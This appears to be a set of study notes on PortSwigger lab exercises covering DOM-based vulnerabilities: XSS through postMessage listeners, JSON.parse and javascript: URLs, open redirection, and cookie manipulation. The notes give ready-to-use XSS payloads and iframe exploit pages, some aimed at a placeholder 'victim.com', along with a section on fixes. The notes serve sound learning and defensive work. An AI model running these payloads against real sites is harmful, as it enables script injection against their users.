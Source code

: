 # DOM-based vulnerabilities

## Lab: DOM XSS using web messages


The code:

```
window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                            })

```

### What’s happening:

- The page listens for messages sent to it via postMessage or other frames/windows.

- Whatever e.data contains is directly inserted into the DOM via innerHTML without sanitization.

- If an attacker can send a crafted message to the page, they can inject arbitrary HTML/JS.

### Why it’s vulnerable
```
- innerHTML interprets input as HTML, so <script> or event handlers (like onerror) will execute.

- The developer has not validated origin (i.e., e.origin) or sanitized e.data.
```

### Attack Steps
- Identify the vulnerable listener:

  - Look for window.addEventListener('message', ...) in JS.

  - Check if the callback uses innerHTML or document.write with untrusted data.

- Verify there’s no origin check:
   ```
   if (e.origin !== "https://trusted-site.com") return;
   If missing → vulnerable.
   ```
- Craft a malicious message to exploit:
	```
	window.postMessage('<img src=x onerror=alert(1)>', '*');
    '*' sends to any origin.
    The payload uses an event handler (onerror) to trigger JavaScript.
  
    ```


### Real-World Exploit
- If you can open the target page in an iframe or another tab, you can inject:

```

<iframe src="https://victim.com"></iframe>
<script>
    // Wait until iframe loads, then send payload
    window.frames[0].postMessage('<img src=x onerror=alert(document.domain)>', '*');
</script>
```

```
<iframe src="https://vitim.com/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```


### Fix
- Validate origin:
```
if (e.origin !== "https://trusted-site.com") return;
```
- Sanitize data (e.g., DOMPurify) before inserting into the DOM:
```
document.getElementById('ads').innerHTML = DOMPurify.sanitize(e.data);
```

- Avoid using innerHTML unless necessary — use textContent for plain text.

<hr>

## Lab: DOM XSS using web messages and a JavaScript URL


Analysis :
 - Find : addEventListener
 - window.postMessage("javascript:alert(1);//https://abc.com","*")
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:bing.com','*')">
```


## Lab: DOM XSS using web messages and JSON.parse

Analysis : The SCRIPT
  - Find : addEventListener
```
//Testing Payload 
window.postMessage(
    JSON.stringify({
        type: "load-channel",
        url: "javascript:alert(document.domain)"
    }),
    "*"
);
```

```
<iframe src=https://0acd00030425513d807c034e00090016.web-security-academy.net/ onload='this.contentWindow.postMessage(`{"type":"load-channel","url":"javascript:print()"}`,"*")'>


<iframe src=https://vul.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

## Lab: DOM-based open redirection

Analysis :
```
<a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```

  - The url parameter contains an open redirection vulnerability that allows you to change where the "Back to Blog"

payload : 

```
https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/
```

<hr>

## Lab: DOM-based cookie manipulation

Analysis :  &'><script>alert(1)</script>